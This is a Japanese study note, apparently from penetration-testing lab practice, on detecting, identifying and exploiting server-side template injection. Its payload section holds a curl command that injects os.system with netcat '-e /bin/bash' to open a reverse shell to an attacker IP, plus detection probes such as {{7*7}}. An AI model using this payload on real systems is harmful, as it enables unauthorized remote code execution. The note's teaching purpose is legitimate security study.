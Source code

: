 ## ## SSTIの理解
 - SSTIは、SSTIを見つけようとしないと見過ごされやすい脆弱性である。
- 発火は、XSSと同じ文字連結によって引きおこる。

---
## ## SSTIの見つけ方
### ### Step1 : Detect(検出)
 - 特殊文字の列挙(テンプレートファジング)をするのが一般的。
```sh
${{<%[%'"}}%\
```
->注意:SSTIは2つの異なるコンテキストで発生し、どれぞれ独自の検出方法が必要である。

- SSTIの有無の判断基準
	- **プレーンテキストのコンテキストの場合**
		- XSSと同じ方法で見つけることが出来るが、この場合`{{7*7}}`などの演算を入力することにより、戻り値が49となればSSTIがあるという理解でいいだろう。
			※数字演算の場合、使用するテンプレートエンジンによって正しい書式が異なるので注意が必要。
	- **コードコンテキスト**
		- **Step1:XSSサイトでないことの確認が必要**
			```Example
			URL: http://site.com/?greeting=data.username<tag>
			目的: 直接的なXSS脆弱性がないことを確認
			期待結果: <tag>がエスケープされるか、エラーになる
			```
		- **Step2:テンプレート構文からの脱出。**
			```Example
			URL: http://site.com/?greeting=data.username}}<tag>
			目的: テンプレート式から抜け出してHTMLを挿入
			期待結果: もしSSTIがあれば「Hello Carlos<tag>」と表示される
			```

### ### Step2 :  Identify(特定)
SSTIの可能性を検出したら、次はtemplateエンジンを特定すること。
テンプレートエンジンの特定は以下の図のようなペイロードを送ればわかる。
![[Pasted image 20250612224600.png]]
※注意:同じテンプレート言語で成功レスポンスを返す場合があることに注意が必要。
1つのテンプレートで決めつけず複数のペイロードを使用する方がいい。

### ### Step3 :Exploit(悪用)
SSTIはRCEができる可能性はあるが、必ずしもうまくいくとは限らない。ただRCEができないからと言って他のエクスプロイトの可能性がないわけではない。トラバーサルや他の深刻度の高い脆弱性が使用されることがある。
- **step1:ドキュメントを読む**
	- まずテンプレートエンジンの特定が出来たら、そのドキュメントを読んで理解を深めることから始める。
		- その際に意識することは基本的なテンプレート構文を学ぶこと。
	- セキュリティの影響の箇所を読む。ドキュメントにはセキュリティセクションみたいな箇所が存在する。通常はテンプレートで避けるべき危険な関数に関することだったりが記載されている。
	- オンラインでテンプレートエンジンの脆弱性がないかを探す。
- **Step2:探索**
	- ターゲットのサイトを巡回して、アクセスできるすべてのオブジェクトを見つける。
		- また、`self`、`environment`オブジェクトが公開されているケースが多い。
			- ↑このオブジェクトは、使用できる関数やメソッド、また、使用されている変数や属性を確認することが出来るオブジェクト。
	- 開発者独自で作ったオブジェクト
		- 意識することとして、エンジンによって提供されるオブジェクトと開発者が作ったサイト固有のカスタムオブジェクトの両方が含まれている点に注意が必要。
			- これらの非標準オブジェクトには、機密情報や悪用可能なメソッドが含まれる可能性が高いため特に注意が必要。
- **Step3:カスタム攻撃を作成する**
	- ここは後ほど記載する。
--- 
![[Pasted image 20250524180648.png]]
- 上記のような{}が出力されているときは、SSTIを疑ってよい


## ## Payload
```
curl -i http://192.168.237.117:50000/verify -X POST --data 'code=5*5'
curl -i http://192.168.243.117:50000/verify -X POST --data 'code=os.system("nc 192.168.45.154 18000 -e /bin/bash")'
```
※参考サイト
[https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys);

---
## ## Enumeration
### ### wordbruteforce
```sh
ffuf 
```

